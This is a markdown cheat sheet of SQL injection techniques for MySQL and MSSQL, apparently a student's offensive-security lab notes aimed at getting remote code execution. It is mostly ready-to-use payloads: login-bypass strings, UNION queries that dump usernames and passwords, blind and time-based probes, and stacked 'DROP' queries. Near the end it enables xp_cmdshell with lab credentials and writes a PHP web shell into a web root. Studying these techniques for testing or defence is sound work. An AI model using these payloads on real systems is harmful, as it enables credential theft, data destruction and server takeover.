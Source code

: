 
## Links

- [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)
- [MSSQL Cheat Sheet](https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/)
# SQLi

Only Resources you will need to get Remote code using SQLi


## MYSQL

### Authenticated SQLi

```
SELECT version();
SELECT system_user();
show databases;

SHOW TABLES FROM database_name;
OR
use <db_name>
show tables;
describe users; # describes columns in users' table

SELECT * from <test>.<users>; # here test is DB and the user is a table in test db
SELECT user, authentication_string FROM mysql.user WHERE user = 'test';bash
```

### Error based SQLi
```
tom' OR 1=1 -- //
' or 1=1 in (select @@version) -- //
' OR 1=1 in (SELECT * FROM users) -- //
' or 1=1 in (SELECT password FROM users) -- //
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- // # password for admin user
```

### Union-based SQLi

```
*** injected UNION query has to include the same number of columns in the original query
*** Data types need to be compatible between each column

1) Finding the number of Columns
' ORDER BY 1-- // # Keep incrementing value of 1 to find columns

2) Finding name, user, and version
%' UNION SELECT database(), user(), @@version, null, null -- // # %' is used for closing the search parameter 
# Assume we got 5 columns on step 1, we are using 3 columns and leaving 2 as null here

2.1) Finding name, user, and version
# Sometimes column 1 is reserved for the ID field so no proper value comes and we try this instead
' UNION SELECT null, null, database(), user(), @@version  -- //

3) Enumerating table names, column names, and db_name
' UNION SELECT null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
# 1 and 5 are kept null
# we see a table called users, let's dive into that

4) Enumrating few columns from the user table found above
' UNION SELECT null, username, password, description, null FROM users -- //
```

## # MSSQL

### Authenticated SQLi

```
SELECT @@version;
SELECT name FROM sys.databases; # master, tempdb, model and msdb are default
SELECT * FROM offsec.information_schema.tables; # Returns table for offsec db
'''
offsec
dbo
users
'''
SELECT * from testuser.dbo.users; # We select dbo table schema between the db and table name
admin lab # user # pass
guest guest  # user # pass
```


### Extra Notes I had

```
#### Line Comments

**Comments out rest of the query.**   
Line comments are generally useful for ignoring rest of the query so you don’t have to deal with fixing the syntax.

- `--` (Postgres and MS SQL and MySQL) `DROP sampletable;--` 
- `#` (MySQL) `DROP sampletable;#`

##### Line Comments Sample SQL Injection Attacks

- Username: `admin'--`
- `SELECT * FROM members WHERE username = 'admin'--' AND password = 'password'` This is going to log you as admin user, because rest of the SQL query will be ignored.


**Executing more than one query in one transaction**. This is very useful in every injection point, especially in SQL Server back ended applications.

- `;` (MS SQL)   
    `SELECT * FROM members; DROP members--`

### If Statements

Get response based on an if statement. This is **one of the key points of Blind SQL Injection**, also can be very useful to test simple stuff blindly and **accurately**.

#### MySQL If Statement

- `IF(**_condition_,_true-part_,_false-part_**)` (M) `SELECT IF(1=1,'true','false')`

#### SQL Server If Statement

- `IF **_condition_** **_true-part_** ELSE **_false-part_**` (S)   
    `IF (1=1) SELECT 'true' ELSE SELECT 'false'`

#### PostgreSQL If Statement

- `SELECT CASE WHEN **_condition_** THEN **_true-part_** ELSE **_false-part_**` END; (P)   
    `SELECT CASE WEHEN (1=1) THEN 'A' ELSE 'B'END;`

##### If Statement SQL Injection Attack Samples

`if ((select user) = 'sa' OR (select user) = 'dbo') select 1 else select 1/0` (S)   
This will throw an **divide by zero error** if current logged user is not **“sa” or “dbo”**.

## Union Injections

With union you do SQL queries cross-table. Basically you can poison query to return records from another table.

`SELECT header, txt FROM news UNION ALL SELECT name, pass FROM members`   
This will combine results from both news table and members table and return all of them.

### Bypassing Login Screens (SMO+)

_SQL Injection 101_, Login tricks

- `admin' --`
- `admin' #`
- `admin'/*`
- `' or 1=1--`
- `' or 1=1#`
- `' or 1=1/*`
- `') or '1'='1--`
- `') or ('1'='1--`
- ….
- Login as different user (SM*)   
    `' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

#### Finding how many columns in SELECT query by **ORDER BY** **(MSO+)**

Finding column number by ORDER BY can speed up the UNION SQL Injection process.

- `ORDER BY 1--`
- `ORDER BY 2--`
- `ORDER BY N--` _so on_

# Enabling xp_cmdshell for SQL Server 2005
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

EXECUTE xp_cmdshell 'whoami';
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
<? system($_REQUEST['cmd']); ?>

```

### Error-Based SQL Injection

- **Goal**: To generate an error message from the SQL database.
- **Method**: Include SQL control characters or SQL code into a query.
- **Example**: Inputting `' OR 1=1 --` in a user input field. If the backend query is `SELECT * FROM users WHERE username = '[input]'`, it becomes `SELECT * FROM users WHERE username = '' OR 1=1 --'`.
- **Result**: The database returns an error or unexpected data, indicating vulnerability.

### Union-Based SQL Injection

- **Goal**: Retrieve data from other tables.
- **Method**: Utilize the `UNION` SQL operator to combine results from multiple SELECT queries.
- **Example**: Input `UNION SELECT username, password FROM users --`.
	- ' UNION SELECT null, null, database(), user(), @@version  -- //
- **Consideration**: Columns data types and number must match between the original and UNION query.

### Blind SQL Injection

- **Goal**: Retrieve data when no error message or data is directly returned.
- **Method**: Ask the database a true/false question and determine the answer based on the application's response.
- **Example**: Change a query to `SELECT * FROM users WHERE username = 'admin' AND 1=1 --`. If the page loads normally, the query is true. If it doesn't, the query is false.

### Time-Based SQL Injection

- **Goal**: Gather information from a database when no data is returned to the user.
- **Method**: Use SQL commands that delay the response.
- **Example**: `'; IF (SELECT COUNT(*) FROM users) > 5 WAITFOR DELAY '0:0:10' --`. If the response is delayed, the statement is true.